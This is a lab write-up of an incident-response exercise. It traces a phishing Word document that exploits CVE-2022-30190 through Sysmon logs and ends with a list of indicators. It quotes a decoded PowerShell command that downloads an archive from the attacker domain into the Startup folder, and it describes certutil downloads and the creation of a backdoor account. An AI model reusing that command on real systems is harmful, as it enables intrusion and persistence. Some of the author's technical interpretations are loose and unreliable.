


# Tempest Box

Box Aim: log analysis, network packet analysis

**Scenario:** 

In this incident, you will act as an Incident Responder from an alert triaged by one of your Security Operations Center analysts. The analyst has confirmed that the alert has a CRITICAL severity that needs further investigation.

As reported by the SOC analyst, the intrusion started from a malicious document. In addition, the analyst compiled the essential information generated by the alert as listed below:

- The malicious document has a .doc extension.
- The user downloaded the malicious document via chrome.exe.
- The malicious document then executed a chain of commands to attain code execution.
- Investigation Guide

**To aid with the investigation, you may refer to the cheatsheet crafted by the team applicable to this scenario:**

- Start with the events generated by Sysmon.
- EvtxEcmd, Timeline Explorer, and SysmonView can interpret Sysmon logs.
- Follow the child processes of WinWord.exe.
- Use filters such as ParentProcessID or ProcessID to correlate the relationship of each process.
- We can focus on Sysmon events such as Process Creation (Event ID 1) and DNS Queries (Event ID 22) to correlate the activity generated by the malicious document.

Write Up
---

Reasoning: The 2 information we know is that the user downloaded a malicious document from chrome. Thus, the whole event starts with chrome. Lets look at all the chrome related events by typing
chrome in Sysmon View and Timeline Explorer.

As standard practice, we should always check the hash of the artifacts.

Since every thing started with chrome, lets check what we can find with chrome regardless of the questions. Below shows an image where we can start to understand the incident and construct the timeline and IOCs.

The incident started at 2022-06-20 16:58:55, where the user benimaru using the machine TEMPEST visited the domain phishteam.xyz with the IP:167.71.199.191. At 2022-06-20 17:12:58, a malicious word document free_magicules.doc was downloaded to the location: C:\Users\benimaru\Downloads.

Next, lets search for any related events related to free_magicules.doc.

and we found that the document was opened at 17:13:12 with a PID: 496. Now lets have a look at the same stuff in sysmon view.

looking at the image, we see that the file was executed successfully and registry event has changed. Next, we want to check what did the doc do on/after execution, therefore we will search for all events with a PPID: 496 (process spawn by the doc).

There are 2 types of events happening after the doc was executed: change in registry and new process creation. Lets check the commands for process creation.

Looking at the payloads and the registry value, the registry event might not be related to the .doc file. If we look at the executed command, we find that the doc has executed a very long command at 17:13:35, and then used NGenTask to stop event: 416 and 412 at 17:22:09.

with some googling, we can see that the `msdt.exe` at the start of the command is associated with the CVE-2022-30190 exploit.
If we decode this base64 command: `$app=Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;`, we know that a new file was downloaded. Lets check all the events related to update.zip.

Looking at the log, only 1 log was associated with update.zip and not much useful info we can find, however, we know that the file was created at 17:13:37, with a PID of 2628 and was downloaded to 'C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'.

As before lets search for anything related to the PID 2628 and we will see if there are any children process related to it(meaning with a PPID:2628)

The log shows that 2628 sprawned a whole bunch of files/IOCs. Lets see anything with a PPID:2628

So it's basically just downloaded a bunch of files with cmdline file extensions, cmdline isn't a standard file extension, but we can suspect there will be a bunch of cmd execution following the file update.zip.

if we search each of these cmdline file, we will find that that all point to the 2 exe 'csc.exe' and 'cvtres.exe'. With a little googling, these 2 are associated with privilege escalation. we can assume the attack is trying to move literally.

Going back to update.zip. The files was in the startup folder, in many case, we can assume he is trying to install or do something and then restart, which will give him priv access. Thus, lets search for account log in info. On successful logon, event 4624 will be logged to windows event logs. lets look at what a logon event around/after 17:13:37. As well as having a sysmon event ID 1 process creation.

So there is an priv account logon at 17:13:39, we can quite sure say that the attacker has gained root access, but lets see what happened after 17:13:39 in sysmon.

So after 17:13:39, we see there are a lot of network connections from the benimaru account, we can assume  those are C2 servers and go through them 1 by 1. Since there are too many logs, we will look at id:1 so we can see all process creation. If we go through all the commands after 17:13:39, 
it is hard to tell which commands are legitimate and which are suspicious. However, looking at the parent process can help. 

A bunch of very interesting commands started after 17:15:10, a powershell was spawned with the hidden flag, and then certutil was used to get a first.exe at the Downloads dir. It was then executed, and a whoami.exe was executed in the system32 dir so on. Lets check out these 2 exe in sysmon view.

So we see first.exe is reaching out to another C2 server with an IP:167.71.222.162 and domain:resolvecyber.xyz, and if we look at the whoami.exe, we can confirm that it ran a powershell command to check privilege at 17:19:16, also, there are another payload called final.exe was downloaded to the Programs dir at 17:21:38. Lets go back to timeline explorer to see the associated events.

So we see the final.exe file is from the spf.exe, and if we look at the timeline without filtering any events. we can be fairly certain that the attacker gained root access after 17:21:34 using the final.exe. Now, lets see all the commands executed after they gained root access.

So looking at the logs, the attacker is using net.exe to execute commands. The attacker tries to create 2 accounts shion and shuna at first but forgot to add the /add flag in net on their first try and after creation of the accounts, they added the shion to administrator group.

**IOC List**
- Domain Name: phishteam.xyz (IP: 167.71.199.191), resolvecyber.xyz (IP: 167.71.222.162)
- free_magicules.doc
- update.zip, first.exe, final.exe, spf.exe, net.exe
- Accounts: shion, shuna

